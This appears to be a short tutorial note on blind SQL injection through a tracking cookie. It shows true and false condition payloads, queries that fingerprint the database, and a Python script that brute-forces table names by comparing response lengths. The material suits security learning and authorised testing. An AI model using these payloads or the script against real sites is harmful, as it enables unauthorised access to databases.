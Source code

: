 
## Blind SQL Injection 

Sometimes we dont get error or any data in the response but still website can be vulnerable to sql injection . 
Example : in the cookie 
we can try to inject some statements in cookie 

### Conditional Responses

we will inject FALSE condition then server sends normal response .
then we will inject TRUE condition then server sends different or lightly different response
that means we can inject sql queries there

**FALSE Condition** - default length of response
```
Cookie : TrackingID = abcdef' AND '1'='2 
```

**TRUE Condition**
```
Cookie : TrackingID = abcdef' AND '1'='1
```

If we get response length > default length 
then its vulnerable to blind sqli

Verifying which database
```
Cookie : TrackingID = abcdef' AND (SELECT 'a' from dual LIMIT 1)='a
Cookie : TrackingID = abcdef' AND (SELECT 'a' from information_schema.tables LIMIT 1)='a
```

in blind sqli , we need to perform maximum bruteforcing

Bruteforcing tablenames
```
Cookie : TrackingID = abcdef' AND (SELECT 'a' from information_schema.columns where table_name='$users$' LIMIT 1)='a
```
send this to intruder and bruteforce the table names 

```python
import requests

tables = ['users','login','hashes']
cookie = 'abcdef'
r = requests.get(url)
default_length = len(r.text)
for i in tables:
	final_cookie = cookie + "' AND (SELECT 'a' from information_schema.columns where table_name='{}' LIMIT 1)='a".format(i)
	full_cookie = {"TrackingId":final_cookie}
	temp = requests.get(url,cookies=full_cookie)
	if len(temp.text)>default_length:
		print("{} table exists".format(i))
```
